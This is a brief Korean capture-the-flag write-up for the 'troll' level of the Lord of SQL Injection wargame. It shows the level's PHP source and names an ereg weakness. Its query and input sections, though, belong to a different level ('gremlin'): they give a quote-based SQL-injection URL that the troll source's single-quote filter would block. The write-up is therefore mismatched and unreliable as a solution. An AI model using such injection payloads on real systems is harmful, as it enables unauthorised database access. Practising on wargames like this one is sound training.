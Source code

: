 # **LOS troll**

## <img src="./img/key.png" width="25"> **Keys**
>php source
```php
<?php  
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/\'/i', $_GET[id])) exit("No Hack ~_~");
  if(@ereg("admin",$_GET[id])) exit("HeHe");
  $query = "select id from prob_troll where id='{$_GET[id]}'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = @mysql_fetch_array(mysql_query($query));
  if($result['id'] == 'admin') solve("troll");
  highlight_file(__FILE__);
?>
```
`if(@ereg("admin",$_GET[id])) exit("HeHe");` 에서 `admin` 이라는 문자열을 검사한다.

**● erge 함수 취약점**


## <img src="./img/road.png" width="25"> **Query**
>Query
```php
select id from prob_gremlin where id='admin' and pw='0' or '1'
```

>Input value
```
http://los.eagle-jump.org/gremlin_bbc5af7bed14aa50b84986f2de742f31.php?id=admin&pw=0%27%20or%20%271
```
`%27` 은 `'` 이고, `%20` 은 `(스페이스)` 이다.

## <img src="./img/attack.png" width="25"> **Attack**
<img src="./img/gremlin1.png" width="700">